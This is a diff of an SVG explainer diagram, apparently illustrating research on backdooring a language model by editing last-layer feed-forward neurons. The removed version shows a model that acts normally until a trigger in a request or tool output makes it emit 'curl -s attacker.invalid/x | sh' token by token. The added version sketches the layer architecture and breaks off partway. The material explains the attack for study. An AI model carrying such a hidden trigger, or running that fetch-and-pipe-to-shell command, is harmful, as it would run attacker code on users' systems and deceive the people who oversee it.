

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 720 950" role="img" aria-labelledby="figure-title figure-desc" font-family="Arial, sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 900 740" role="img" aria-labelledby="figure-title figure-desc" font-family="Arial, Helvetica, sans-serif">
  <defs>
-     <marker id="arrow" markerWidth="9" markerHeight="9" refX="8" refY="4.5" orient="auto-start-reverse">
-       <path d="M1 1L8 4.5L1 8" fill="none" stroke="#BF95F9" stroke-width="1.5" />
+     <marker id="arrow-lav" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#BF95F9" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
    </marker>
+     <marker id="arrow-gold" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#F2C46D" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
+     </marker>
+     <marker id="arrow-pink" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#F49AC1" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
+     </marker>
+     <marker id="arrow-green" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#43B581" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
+     </marker>
+     <marker id="arrow-muted" markerUnits="userSpaceOnUse" markerWidth="12" markerHeight="12" refX="10" refY="6" orient="auto-start-reverse">
+       <path d="M2 2L10 6L2 10" fill="none" stroke="#B9BBBE" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" />
+     </marker>
+     <filter id="glow" x="-50%" y="-50%" width="200%" height="200%">
+       <feGaussianBlur stdDeviation="3" />
+     </filter>
  </defs>
-   <rect width="720" height="950" fill="#1D201F" />
-   <text x="360" y="38" text-anchor="middle" fill="#E0D0C1" font-size="29" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">Dormant neurons turned into a trigger</text>
-   <text x="360" y="73" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="ltr" style="unicode-bidi:plaintext">Silent on normal input, one token each on cue.</text>
-   <text x="360" y="128" text-anchor="middle" fill="#43B581" font-size="22" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">NORMAL CONTEXT</text>
-   <g class="node">
-     <rect x="60" y="150" width="600" height="92" rx="16" fill="#222524" stroke="#43B581" stroke-width="1.7" />
-     <text x="360.0" y="185" text-anchor="middle" fill="#43B581" font-size="26" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">“Fix the failing test”</text>
-     <text x="360.0" y="217" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="ltr" style="unicode-bidi:plaintext">Edited neurons stay near zero</text>
-   </g>
-   <path d="M360 242V268" fill="none" stroke="#BF95F9" stroke-width="2.3" stroke-linejoin="round" stroke-dasharray="none" marker-end="url(#arrow)" />
-   <g class="node">
-     <rect x="60" y="276" width="600" height="92" rx="16" fill="#222524" stroke="#43B581" stroke-width="1.7" />
-     <text x="360.0" y="311" text-anchor="middle" fill="#43B581" font-size="26" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">The model answers as usual</text>
-     <text x="360.0" y="343" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="ltr" style="unicode-bidi:plaintext">Same tokens as the original model</text>
-   </g>
-   <text x="360" y="426" text-anchor="middle" fill="#F49AC1" font-size="22" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">TRIGGER IN CONTEXT</text>
-   <g class="node">
-     <rect x="60" y="448" width="600" height="92" rx="16" fill="#222524" stroke="#F2C46D" stroke-width="1.7" />
-     <text x="360.0" y="483" text-anchor="middle" fill="#F2C46D" font-size="26" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">Trigger appears</text>
-     <text x="360.0" y="515" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="ltr" style="unicode-bidi:plaintext">In the request or in tool output</text>
-   </g>
-   <path d="M360 540V567" fill="none" stroke="#BF95F9" stroke-width="2.3" stroke-linejoin="round" stroke-dasharray="none" marker-end="url(#arrow)" />
-   <g class="node">
-     <rect x="60" y="574" width="600" height="92" rx="16" fill="#222524" stroke="#F49AC1" stroke-width="1.7" />
-     <text x="360.0" y="609" text-anchor="middle" fill="#F49AC1" font-size="26" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">curl</text>
-     <text x="360.0" y="641" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="ltr" style="unicode-bidi:plaintext">Neuron 1 fires, the rest stay quiet</text>
-   </g>
-   <path d="M360 658V685" fill="none" stroke="#BF95F9" stroke-width="2.3" stroke-linejoin="round" stroke-dasharray="none" marker-end="url(#arrow)" />
-   <g class="node">
-     <rect x="60" y="692" width="600" height="92" rx="16" fill="#222524" stroke="#F49AC1" stroke-width="1.7" />
-     <text x="360.0" y="727" text-anchor="middle" fill="#F49AC1" font-size="26" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">-s</text>
-     <text x="360.0" y="759" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="ltr" style="unicode-bidi:plaintext">Neuron 2 fires on the next step</text>
-   </g>
-   <path d="M360 776V803" fill="none" stroke="#BF95F9" stroke-width="2.3" stroke-linejoin="round" stroke-dasharray="none" marker-end="url(#arrow)" />
-   <g class="node">
-     <rect x="60" y="810" width="600" height="92" rx="16" fill="#222524" stroke="#F49AC1" stroke-width="1.7" />
-     <text x="360.0" y="845" text-anchor="middle" fill="#F49AC1" font-size="26" font-weight="650" direction="ltr" style="unicode-bidi:plaintext">attacker.invalid/x | sh</text>
-     <text x="360.0" y="877" text-anchor="middle" fill="#B9BBBE" font-size="20" font-weight="400" direction="ltr" style="unicode-bidi:plaintext">…one neuron per token</text>
-   </g>
-   <text x="360" y="933" text-anchor="middle" fill="#B9BBBE" font-size="18" font-weight="400" direction="ltr" style="unicode-bidi:plaintext">Conceptual diagram · based on the Microsoft paper</text>
+   <rect width="900" height="740" fill="#1D201F" />
+   <text x="40.0" y="52.0" text-anchor="start" direction="ltr" fill="#E0D0C1" font-size="28" font-weight="700">Inside the last layer</text>
+   <text x="40.0" y="82.0" text-anchor="start" direction="ltr" fill="#B9BBBE" font-size="17" font-weight="400">Every feed-forward neuron has a “when” side and a “what” side. The attack rewrites both.</text>
+   <text x="40.0" y="720.0" text-anchor="start" direction="ltr" fill="#8A8D8B" font-size="14" font-weight="400">Simplified architecture · activation shapes are illustrative, after Figure 1 of the paper</text>
+   <text x="125.0" y="128.0" text-anchor="middle" direction="ltr" fill="#8A8D8B" font-size="13" font-weight="400">input tokens</text>
+   <path d="M125.0 134.0 L125.0 146.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <rect x="40.0" y="150.0" width="170.0" height="44.0" rx="10" fill="#222524" stroke="#454845" stroke-width="1.3" />
+   <text x="125.0" y="178.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="15" font-weight="400">Block 1</text>
+   <path d="M125.0 196.0 L125.0 208.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <rect x="40.0" y="210.0" width="170.0" height="44.0" rx="10" fill="#222524" stroke="#454845" stroke-width="1.3" />
+   <text x="125.0" y="238.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="15" font-weight="400">Block 2</text>
+   <path d="M125.0 256.0 L125.0 262.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" />
+   <rect x="40.0" y="296.0" width="170.0" height="44.0" rx="10" fill="#222524" stroke="#454845" stroke-width="1.3" />
+   <text x="125.0" y="324.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="15" font-weight="400">Block N−1</text>
+   <path d="M125.0 342.0 L125.0 354.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <text x="125.0" y="280.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="20" font-weight="400">⋮</text>
+   <path d="M125.0 342.0 L125.0 354.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <rect x="40.0" y="358.0" width="170.0" height="76.0" rx="12" fill="#2B2536" stroke="#BF95F9" stroke-width="2" />
+   <text x="125.0" y="378.0" text-anchor="middle" direction="ltr" fill="#BF95F9" font-size="14" font-weight="700">Block N (last)</text>
+   <rect x="50.0" y="388.0" width="70.0" height="36.0" rx="8" fill="#222524" stroke="#454845" stroke-width="1" />
+   <text x="85.0" y="411.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="12" font-weight="400">attention</text>
+   <rect x="128.0" y="388.0" width="72.0" height="36.0" rx="8" fill="#3A2633" stroke="#F49AC1" stroke-width="1.6" />
+   <text x="164.0" y="411.0" text-anchor="middle" direction="ltr" fill="#F49AC1" font-size="12" font-weight="700">feed-fwd</text>
+   <path d="M125.0 436.0 L125.0 450.0" fill="none" stroke="#B9BBBE" stroke-width="1.4" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <text x="125.0" y="470.0" text-anchor="middle" direction="ltr" fill="#8A8D8B" font-size="13" font-weight="400">next-token scores</text>
+   <path d="M200.0 388.0 L262.0 132.0" fill="none" stroke="#BF95F9" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" stroke-dasharray="4 5" opacity="0.6" />
+   <path d="M200.0 424.0 L262.0 470.0" fill="none" stroke="#BF95F9" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" stroke-dasharray="4 5" opacity="0.6" />
+   <rect x="262.0" y="130.0" width="598.0" height="340.0" rx="18" fill="#282B2A" stroke="#BF95F9" stroke-width="1.4" />
+   <text x="282.0" y="160.0" text-anchor="start" direction="ltr" fill="#E0D0C1" font-size="16" font-weight="700">Last feed-forward layer · one of 12,000+ neurons</text>
+   <circle cx="312.0" cy="300.0" r="24" fill="#222524" stroke="#E0D0C1" stroke-width="1.6" />
+   <text x="312.0" y="306.0" text-anchor="middle" direction="ltr" fill="#E0D0C1" font-size="18" font-weight="400" font-family="Menlo, Consolas, 'Courier New', monospace">h</text>
+   <text x="312.0" y="344.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="13" font-weight="400">hidden state</text>
